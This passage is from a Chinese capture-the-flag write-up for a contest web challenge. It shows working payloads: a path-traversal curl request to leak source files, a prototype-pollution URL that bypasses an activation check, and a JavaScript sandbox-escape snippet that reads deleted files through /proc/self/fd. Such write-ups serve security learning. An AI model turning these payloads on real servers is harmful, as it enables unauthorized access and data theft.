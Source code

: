 具体的服务器脚本可以见本题文件`index.js`.

这样，我们就得到了 flag：`flag{Eval-Always-ConsidereD-HarmFul}`.

## Flag 即服务

考虑路径逃逸.

```bash
curl --path-as-is https://prob11-????????.geekgame.pku.edu.cn/api/../package.json
```

得到**package.json**的内容.

```json
{
  "name": "demo-server",
  "version": "1.0.0",
  "description": "",
  "scripts": { "start": "node --max-http-header-size=32768 start.js" },
  "author": "You",
  "license": "WTFPL",
  "dependencies": {
    "jsonaas-backend": "https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"
  }
}
```

下载得到后端代码.

看到`if(FLAG0!==`flag{${0.1+0.2}}`)`,立即知 flag0：`flag{0.30000000000000004}`.

而对于 flag1，我们可以利用如下函数：

```jsx
app.get("/activate", (req, res) => {
  if (req.query.code === FLAG1) req.session.activated = 1;
  if (req.session.activated)
    res.send(`You have been activated. Activation code: ${FLAG1}`);
  else res.send("Wrong activation code :(");
});
```

只要把`req.session.activated`弄成一个 truly value 即可. 考虑原型链投毒. 又结合`waf`函数没有判断输入类型，只要以数组形式传入参数即可.

构造恶意 URL，浏览器访问

```
/api/demo.json?out_path=a&out_path=b/constructor/prototype/activated
```

然后激活. 即得到 flag1：`flag{I-Can-Activate-From-ProTotyPe}`.

而对于 flag2，我们知道在 Linux 下，调用`fopen`获取 fd 后，会在`/proc/self/fd`下建立符号链接；`unlink`虽然把文件“删除”了，但只要还有它的 fd 存在，就没有真正删除，可以通过`/proc/self/fd/${fd}`访问.

于是，我们只需要注入下列代码即可获取 flag2：

```jsx
const [p, a] = this.constructor.constructor(
  "return [process.ppid,(this.global.require||process.mainModule.require)('fs')]"
)();
const b = "/proc/" + p + "/fd/";
let r = "";
a.readdirSync(b).forEach((c) => {
  const d = b + "/" + c;
  try {
    if (a.readlinkSync(d).endsWith("(deleted)")) {
      r += a.readFileSync(d).toString().trim();
    }
  } catch {}
});
```